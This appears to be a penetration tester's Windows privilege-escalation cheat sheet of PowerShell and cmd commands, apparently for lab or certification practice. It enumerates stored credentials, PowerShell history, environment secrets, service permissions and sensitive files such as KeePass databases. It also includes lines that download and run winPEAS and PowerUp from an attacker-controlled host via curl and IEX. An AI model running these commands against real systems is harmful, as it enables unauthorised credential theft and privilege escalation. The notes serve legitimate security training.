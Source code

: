 
> [!NOTE] Note
> set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```powershell
whoami /priv
whoami /groups

set 

tasklist /svc

cmdkey /list

systeminfo

net user
net user <current user>
net localgroup
query user
net accounts

Get-History

(Get-PSReadlineOption).HistorySavePath
type <previous command output>
ls C:\Users\bob\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\

ipconfig /all
netstat -ano
tasklist /svc | findstr <PID>
route print

dir C:\
dir "C:\Program Files"
dir "C:\Program Files (x86)"

Get-WmiObject -Class Win32_Product |  select Name, Version
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls <service binary path>

$env:AppKey

gci -Path C:\ -Include *.kdbx,.git -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\xampp -Include *.txt,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci -h -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci C:\Users\Public

gci \\.\pipe\
accesschk.exe -accepteula -w \pipe\WindscribeService -v

where.exe /R C:\Windows bash.exe
where.exe /R C:\Windows wsl.exe
where.exe /R C:\ MultimasterAPI.dll
```
1.  Snoop on processes
```powershell
Import-Module .\Watch-Command.ps1
Get-Process | watch-command -diff -cont -verbose -property "Image Name"
```
2. Run PEAS,
```powershell
curl 192.168.45.x/winPEAS.exe -o winpeas.exe
.\winpeas.exe
```
3. PowerUp
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.x/PowerUp.ps1');Invoke-Allchecks
```
4. Running the `sysinfo` command shows us that the system is of x86 bit architecture, giving us even more reason to trust the Local Exploit Suggester
```
post/multi/recon/local_exploit_suggester
```
